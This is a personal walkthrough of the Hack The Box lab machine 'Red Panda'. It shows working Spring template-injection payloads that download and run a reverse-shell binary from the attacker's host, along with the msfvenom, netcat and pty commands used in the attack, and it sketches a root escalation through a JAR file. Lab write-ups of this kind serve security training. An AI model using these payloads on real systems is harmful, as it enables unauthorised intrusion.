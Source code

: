 # HTB - Red Panda

## Summary

This was an active box. Obtaining the user flag was very easy, obtaining root is somewhat hard and pretty annoying.
Getting an initial foothold is a simple Server Side Template Injection (SSTI). This allows us to upload and execute a rev shell, which gets us the user flag.
The privledge escalation to root is a complicated and super specific exploit of a jar file which is running as root

## Webex

Our nmap scan shows us a http web server running on port 8080, as well as port 22 open for ssh  
The website just contains a search bar, which allows us to search for pandas  
Using the string `#{7*7}`we get a weird result, indicating the search is vulnerable to Server Side Template Injection (SSTI)  
The string `*{7*7}` further confirms this, as it shows; "You searched for: 49"  

We can identify the backend, with `*{7*'7'}` which brings us to an error page.  
Searching the contents of the error page in Google allows us to identify SpringFramework as the backend  
We can then search SpringFramework SSTI to get a cheatsheet of commands we can use  

We can create a tcp reverse shell with:  
`msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.14.2 LPORT=443 -f elf > r.elf`  
Then, we can upload the rev shell to the target by hosting an http server with:  
`python3 -m http.server 8000`  
and searching this in the search bar:  
`*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("wget 10.10.14.2:8000/r.elf")}`  
We should see our http server serve the request  
Next, we make the rev shell executable with the search:  
`*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("chmod 777 ./r.elf")}`  
Then, start a netcat listener on 443 with:  
`sudo nc -lvnp 443`  
And then run this search to execute the rev shell:  
`*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("./r.elf")}`  
We should have received a connection on our netcat listener, we can upgrade to a tty shell with:  
`python3 -c 'import pty; pty.spawn("/bin/bash")'`  

## Privlege Escalation

I'm not going to go too in-to-depth here because I wasn't really paying attention to this part of the exploitation
`id` shows us that we are a member of the logs group
`find / -group logs 2>/dev/null` shows us all files that are owned by the logs group  

We used `pspy64` to see that there is a JAR file that is executed by root every once in a while  
There is a vulnerability in the Java code  
We make a custom jpg file, and a custom xml file to exploit this  
If you have any need to know how to do this, see this article for more information:  
https://shakuganz.com/2022/07/12/hackthebox-redpanda/
